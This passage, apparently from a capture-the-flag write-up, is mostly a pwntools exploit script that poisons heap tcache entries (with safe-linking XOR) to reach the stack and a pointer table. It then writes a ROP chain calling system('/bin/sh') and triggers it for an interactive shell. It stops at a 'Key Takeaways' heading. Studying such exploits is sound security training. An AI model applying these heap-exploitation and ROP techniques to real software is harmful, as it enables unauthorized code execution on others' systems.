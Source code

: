 ```python
delete(chunk_H)
delete(chunk_I)

# Poison to stack
payload = p64(rbp_addr ^ ((heap_base + 0x1000) >> 12))
write(chunk_I, 0, payload)

chunk_J = create(0x30)
chunk_K = create(0x30)

# Build ROP chain
binsh = libc.address + 0x1d84ab
pop_rdi = libc.address + 0x119e9c
system = libc.address + 0x5c110
ret = libc.address + 0x28882

rop = p64(0) + p64(pop_rdi) + p64(binsh) + p64(ret) + p64(system)
write(chunk_K, 0, rop)
log.success("ROP chain written!")

log.info("Stage 6: Clear ptr_table")
chunk_L = create(0x200)
chunk_M = create(0x200)
chunk_N = create(0x100)

delete(chunk_L)
delete(chunk_M)

# Poison to ptr_table
ptr_table = elf.address + 0x4060
payload = p64(ptr_table ^ ((heap_base + 0x1000) >> 12))
write(chunk_M, 0, payload)

chunk_O = create(0x200)
chunk_P = create(0x200)

# Clear all entries
payload = p64(0) * 32
write(chunk_P, 0, payload)
log.success("ptr_table cleared!")

# Trigger exit and get shell
log.info("Exiting to trigger ROP chain...")
p.sendline(b'exit')

p.interactive()
```

---

## Key Takeaways

